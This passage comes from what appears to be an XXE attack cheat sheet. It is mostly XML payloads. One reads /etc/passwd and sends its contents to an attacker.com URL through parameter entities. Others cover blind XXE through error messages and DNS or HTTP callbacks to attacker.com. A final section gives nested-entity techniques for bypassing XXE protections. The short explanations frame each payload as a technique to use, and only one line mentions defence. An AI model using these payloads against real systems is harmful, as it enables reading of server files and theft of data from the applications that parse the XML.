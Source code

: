 ```xml
<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://attacker.com/?data=%file;'>">
  %eval;
]>
<root>&exfil;</root>
```

> **Note:** Some XML parsers restrict parameter entities in certain contexts to prevent XXE attacks.

---

## XXE Blind Injection Techniques

Blind XXE relies on side effects like network interactions, as the data isn’t displayed in the application response.

### Blind XXE with Error-Based Feedback

Some XML parsers will throw errors if they cannot resolve external entities, revealing information indirectly.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY % xxe SYSTEM "file:///nonexistent_file">]>
<root>&xxe;</root>
```

### Using DNS Requests for Blind XXE

DNS exfiltration triggers a DNS lookup to the attacker’s server, confirming XXE vulnerability.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "http://attacker.com">]>
<root>&xxe;</root>
```

---

## Bypassing XXE Protections

Some applications limit entities or specific XML tags to mitigate XXE. Here are techniques to bypass such restrictions:

### Nested Entities

Attempting nested or recursive entities can sometimes evade simplistic checks.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY x1 SYSTEM "file:///etc/passwd">
  <!ENTITY x2 "&x1;">
]>
<root>&x2;</root>
```
